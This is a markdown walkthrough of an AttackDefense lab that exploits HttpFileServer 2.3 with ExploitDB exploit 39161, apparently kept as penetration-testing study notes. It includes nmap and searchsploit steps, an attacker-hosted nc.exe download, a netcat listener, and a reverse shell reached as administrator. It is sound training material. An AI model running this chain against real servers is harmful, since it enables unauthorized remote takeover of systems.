


# 🔬Fixing Exploits - HFS

## Lab 1

>  🔬 [Windows: HTTP File Server](https://attackdefense.com/challengedetails?cid=1945)
>
>  - Same as the [HFS - MSF Exploit Lab](../../hostnetwork-penetration-testing/3-metasploit/hfs-msf-exp.md)
>  - Target IP: `10.2.23.79`
>  - Manually exploit the target with **ExploitDB exploits**
>  - Attacker machine is offline

```bash
nmap -sV 10.2.23.79
```

```bash
80/tcp    open  http               HttpFileServer httpd 2.3
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49165/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

- Use `searchsploit` to identify `HttpFileServer httpd 2.3` vulnerabilities

```bash
searchsploit HTTP File Server 2.3
```



- Copy the exploit to the Desktop

```bash
cd Desktop/
searchsploit -m 39161
```

### Analyzing the Exploit

```bash
vim 39161.py
```


- Read the exploit
  - *You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe). You may need to run it multiple times for success!*
  - `ip_addr` - change to attacker Kali Linux IP
  - `local_port` - change to 1234

### Execute the Exploit

- Save and run the exploit

```bash
# In a new terminal session
cd Desktop/
cp /usr/share/windows-resources/binaries/nc.exe .
python -m SimpleHTTPServer 80
```

```bash
# In a new terminal session
# Run the netcat listener on the exploit specified "local_port"
nc -nvlp 1234
```

```bash
# From the first terminal windows, run the exploit
python 39161.py 10.2.23.79 80
```

```bash
whoami
	win-omcnbkr66mn\administrator
systeminfo
```



------

